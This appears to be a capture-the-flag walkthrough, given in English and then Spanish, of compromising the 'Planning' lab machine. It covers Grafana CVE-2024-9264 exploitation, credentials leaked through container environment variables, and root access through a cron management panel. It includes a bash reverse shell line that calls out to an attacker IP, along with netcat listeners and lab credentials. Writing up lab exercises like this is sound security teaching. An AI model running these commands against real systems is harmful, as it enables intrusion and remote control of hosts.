Exploitation Summary
Exploitation process: The attack began by discovering a subdomain grafana.planning.htb hosting Grafana v11.0.0. Using provided default credentials, I accessed the Grafana instance and exploited CVE-2024-9264, a critical vulnerability allowing arbitrary file read and remote code execution through malicious plugin installation.
The exploit leveraged the plugin installation mechanism to execute a reverse shell, granting root access within a Docker container. By examining environment variables in the containerized Grafana instance, I discovered SSH credentials for the user enzo, which provided access to the host system.
Privilege escalation was achieved by discovering a locally-running web application on port 8000 that managed cron jobs. After finding hardcoded credentials in a JSON configuration file, I authenticated to this cron management panel and created a malicious cron job that executed a reverse shell script as root, compromising the entire system.
Technologies/Exploits: Grafana CVE-2024-9264 (LFI/RCE via plugin installation), Docker container escape through credential disclosure, cron job manipulation for privilege escalation.
Initial Reconnaissance
The machine description provided default credentials that would prove useful later:
admin:0D5oT70Fq13EvB5r
Starting with an nmap scan to identify open services:

The scan reveals standard web services. I add the virtual host planning.htb to my /etc/hosts file for easier navigation.
Web Enumeration - Planning.htb
Running whatweb to gather more information about the web technologies:
whatweb http://planning.htb
The output reveals:
http://planning.htb [200 OK] Bootstrap 4.4.1, Country[RESERVED][ZZ], Email[info@planning.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], JQuery[3.4.1], Script, Title[Edukate - Online Education Website], nginx[1.24.0]
The site appears to be an online education platform. While browsing, I discover an interesting course enrollment form that makes POST requests - this could be a potential attack vector:

Running gobuster for directory enumeration doesn't reveal anything particularly suspicious:

Testing the Enrollment Form
Using Burp Suite to intercept and manipulate requests, I notice that removing certain properties from the POST request causes a 500 Internal Server Error. This indicates insufficient input validation, which could be exploitable:

I also find a course search functionality at /index.php:

However, testing for SQL injection and other common vulnerabilities doesn't yield results.
Subdomain Discovery
Shifting focus to virtual host enumeration with gobuster:

Excellent! I discover a subdomain: grafana.planning.htb. I add this to my /etc/hosts file and navigate to it.
Grafana Authentication
The subdomain hosts a Grafana instance. Using the credentials provided in the machine description (admin:0D5oT70Fq13EvB5r), I successfully authenticate.
Once logged in, I can see the Grafana version from the UI:
Grafana v11.0.0 (83b9528bce)
Vulnerability Research - CVE-2024-9264
This specific version of Grafana is vulnerable to CVE-2024-9264, a critical vulnerability that allows both Local File Inclusion (LFI) and Remote Code Execution (RCE).
I find a proof-of-concept exploit on GitHub: https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py
Understanding the Exploit
The exploit works in two stages:
- First POST request: Writes a reverse shell payload to
/tmp/rev on the Grafana server
- Second POST request: Installs a community plugin called
shellfs, loads it, and executes the previously saved reverse shell
This vulnerability leverages Grafana's plugin installation mechanism to achieve code execution. The plugin system doesn't properly validate or sanitize plugin sources, allowing malicious code to be loaded and executed.
Initial Access - Exploiting Grafana
I execute the proof-of-concept exploit against the Grafana instance. After setting up a netcat listener:
nc -lvnp 4444
The exploit successfully grants me a reverse shell as root - but this is root within a Docker container, not the actual host system.
Container Enumeration
To find a way to escape the container or access the host, I examine environment variables:
env
Among the environment variables, I discover credentials:
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
These credentials appear to be for a user on the host system.
SSH Access to Host System
Using the discovered credentials, I attempt SSH access to the host machine:
ssh enzo@planning.htb
Success! The credentials work, and I now have shell access as the user enzo on the actual host system. I can retrieve the user flag:

Local Service Enumeration
To identify potential privilege escalation vectors, I check for services running locally on the host:
ss -tuln

Several interesting ports are listening on localhost, including ports 3000, 8000, and others.
Discovering Configuration Files
Exploring the filesystem, I find an interesting directory in /opt/crontab containing a JSON configuration file:

The JSON file contains another set of credentials:
P4ssw0rdS0pRi0T3c
I note this password for potential future use.
Accessing the Cron Management Panel
Investigating the local services, I determine that:
- Port 3000 is the Grafana instance
- Port 8000 hosts an unknown web application
To access port 8000 from my attacking machine, I set up an SSH tunnel:
ssh -L 8000:localhost:8000 enzo@planning.htb
Navigating to http://localhost:8000, I'm presented with HTTP Basic Authentication. Testing various credential combinations, I find that root:P4ssw0rdS0pRi0T3c successfully authenticates.
The application appears to be a web-based cron job management panel, allowing the creation and modification of scheduled tasks.
Privilege Escalation - Malicious Cron Job
Since I can create cron jobs through this web interface and it's running with root privileges, I can leverage this to execute arbitrary commands as root.
I create a malicious cron job through the panel:

Preparing the Payload
First, I create a reverse shell script in the enzo user's home directory:
cat > /home/enzo/xd.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.15/9001 0>&1
EOF
chmod +x /home/enzo/xd.sh
Then, through the cron management panel, I schedule this script to execute as root:

Setting up my listener to catch the root shell:
nc -lvnp 9001
After the cron job executes, I receive a root shell:

With root access, I can now retrieve the root flag and complete the machine.
Conclusion
This machine demonstrated a realistic attack chain involving:
- Subdomain enumeration to discover hidden services
- Exploiting a recent Grafana vulnerability (CVE-2024-9264)
- Container escape through credential disclosure
- Privilege escalation via insecure cron job management
The key takeaways include the importance of securing plugin installation mechanisms, properly isolating containerized applications, avoiding hardcoded credentials in configuration files, and restricting access to privileged task schedulers.
Resumen de Explotación
Proceso de explotación: El ataque comenzó descubriendo un subdominio grafana.planning.htb alojando Grafana v11.0.0. Utilizando las credenciales proporcionadas por defecto, accedí a la instancia de Grafana y exploté CVE-2024-9264, una vulnerabilidad crítica que permite lectura arbitraria de archivos y ejecución remota de código mediante la instalación de plugins maliciosos.
El exploit aprovechó el mecanismo de instalación de plugins para ejecutar una reverse shell, otorgándome acceso root dentro de un contenedor Docker. Al examinar las variables de entorno en la instancia de Grafana contenedorizada, descubrí credenciales SSH para el usuario enzo, que proporcionaron acceso al sistema host.
La escalada de privilegios se logró descubriendo una aplicación web corriendo localmente en el puerto 8000 que gestionaba tareas cron. Tras encontrar credenciales hardcodeadas en un archivo de configuración JSON, me autentiqué en este panel de gestión de cron y creé una tarea cron maliciosa que ejecutó un script de reverse shell como root, comprometiendo el sistema completo.
Tecnologías/Exploits: Grafana CVE-2024-9264 (LFI/RCE mediante instalación de plugins), escape de contenedor Docker a través de divulgación de credenciales, manipulación de tareas cron para escalada de privilegios.
Reconocimiento Inicial
La descripción de la máquina proporcionó credenciales por defecto que resultarían útiles más adelante:
admin:0D5oT70Fq13EvB5r
Comienzo con un escaneo de nmap para identificar servicios abiertos:
El escaneo revela servicios web estándar. Añado el virtual host planning.htb a mi archivo /etc/hosts para facilitar la navegación.
Enumeración Web - Planning.htb
Ejecuto whatweb para recopilar más información sobre las tecnologías web:
whatweb http://planning.htb
La salida revela:
http://planning.htb [200 OK] Bootstrap 4.4.1, Country[RESERVED][ZZ], Email[info@planning.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], JQuery[3.4.1], Script, Title[Edukate - Online Education Website], nginx[1.24.0]
El sitio parece ser una plataforma de educación online. Navegando, descubro un formulario interesante de inscripción a cursos que hace peticiones POST - esto podría ser un potencial vector de ataque:
Ejecutando gobuster para enumeración de directorios no revela nada particularmente sospechoso:
Probando el Formulario de Inscripción
Usando Burp Suite para interceptar y manipular peticiones, noto que eliminar ciertas propiedades de la petición POST causa un error 500 Internal Server Error. Esto indica validación de entrada insuficiente, lo cual podría ser explotable:
También encuentro una funcionalidad de búsqueda de cursos en /index.php:
Sin embargo, probar para inyección SQL y otras vulnerabilidades comunes no produce resultados.
Descubrimiento de Subdominios
Cambio el enfoque a enumeración de virtual hosts con gobuster:
¡Excelente! Descubro un subdominio: grafana.planning.htb. Lo añado a mi archivo /etc/hosts y navego hacia él.
Autenticación en Grafana
El subdominio aloja una instancia de Grafana. Usando las credenciales proporcionadas en la descripción de la máquina (admin:0D5oT70Fq13EvB5r), me autentico exitosamente.
Una vez dentro, puedo ver la versión de Grafana desde la UI:
Grafana v11.0.0 (83b9528bce)
Investigación de Vulnerabilidades - CVE-2024-9264
Esta versión específica de Grafana es vulnerable a CVE-2024-9264, una vulnerabilidad crítica que permite tanto Local File Inclusion (LFI) como Remote Code Execution (RCE).
Encuentro una prueba de concepto del exploit en GitHub: https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py
Entendiendo el Exploit
El exploit funciona en dos etapas:
- Primera petición POST: Escribe un payload de reverse shell en
/tmp/rev en el servidor Grafana
- Segunda petición POST: Instala un plugin de la comunidad llamado
shellfs, lo carga y ejecuta la reverse shell previamente guardada
Esta vulnerabilidad aprovecha el mecanismo de instalación de plugins de Grafana para conseguir ejecución de código. El sistema de plugins no valida ni sanitiza adecuadamente las fuentes de plugins, permitiendo que se cargue y ejecute código malicioso.
Acceso Inicial - Explotando Grafana
Ejecuto la prueba de concepto del exploit contra la instancia de Grafana. Tras configurar un listener de netcat:
nc -lvnp 4444
El exploit me otorga exitosamente una reverse shell como root - pero esto es root dentro de un contenedor Docker, no el sistema host real.
Enumeración del Contenedor
Para encontrar una manera de escapar del contenedor o acceder al host, examino las variables de entorno:
env
Entre las variables de entorno, descubro credenciales:
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
Estas credenciales parecen ser para un usuario en el sistema host.
Acceso SSH al Sistema Host
Usando las credenciales descubiertas, intento acceso SSH a la máquina host:
ssh enzo@planning.htb
¡Éxito! Las credenciales funcionan, y ahora tengo acceso shell como usuario enzo en el sistema host real. Puedo recuperar la flag de usuario:
Enumeración de Servicios Locales
Para identificar potenciales vectores de escalada de privilegios, compruebo servicios corriendo localmente en el host:
ss -tuln
Varios puertos interesantes están escuchando en localhost, incluyendo los puertos 3000, 8000 y otros.
Descubriendo Archivos de Configuración
Explorando el sistema de archivos, encuentro un directorio interesante en /opt/crontab conteniendo un archivo de configuración JSON:
El archivo JSON contiene otro conjunto de credenciales:
P4ssw0rdS0pRi0T3c
Anoto esta contraseña para un potencial uso futuro.
Accediendo al Panel de Gestión de Cron
Investigando los servicios locales, determino que:
- El puerto 3000 es la instancia de Grafana
- El puerto 8000 aloja una aplicación web desconocida
Para acceder al puerto 8000 desde mi máquina atacante, configuro un túnel SSH:
ssh -L 8000:localhost:8000 enzo@planning.htb
Navegando a http://localhost:8000, se me presenta autenticación HTTP Basic. Probando varias combinaciones de credenciales, encuentro que root:P4ssw0rdS0pRi0T3c autentica exitosamente.
La aplicación parece ser un panel de gestión de tareas cron basado en web, permitiendo la creación y modificación de tareas programadas.
Escalada de Privilegios - Tarea Cron Maliciosa
Dado que puedo crear tareas cron a través de esta interfaz web y está ejecutándose con privilegios root, puedo aprovechar esto para ejecutar comandos arbitrarios como root.
Creo una tarea cron maliciosa a través del panel:
Preparando el Payload
Primero, creo un script de reverse shell en el directorio home del usuario enzo:
cat > /home/enzo/xd.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.15/9001 0>&1
EOF
chmod +x /home/enzo/xd.sh
Luego, a través del panel de gestión de cron, programo este script para ejecutarse como root:
Configurando mi listener para capturar la shell de root:
nc -lvnp 9001
Después de que la tarea cron se ejecuta, recibo una shell de root:
Con acceso root, ahora puedo recuperar la flag de root y completar la máquina.
Conclusión
Esta máquina demostró una cadena de ataque realista involucrando:
- Enumeración de subdominios para descubrir servicios ocultos
- Explotación de una vulnerabilidad reciente de Grafana (CVE-2024-9264)
- Escape de contenedor mediante divulgación de credenciales
- Escalada de privilegios mediante gestión insegura de tareas cron
Las conclusiones clave incluyen la importancia de asegurar los mecanismos de instalación de plugins, aislar apropiadamente las aplicaciones contenedorizadas, evitar credenciales hardcodeadas en archivos de configuración y restringir el acceso a programadores de tareas privilegiadas.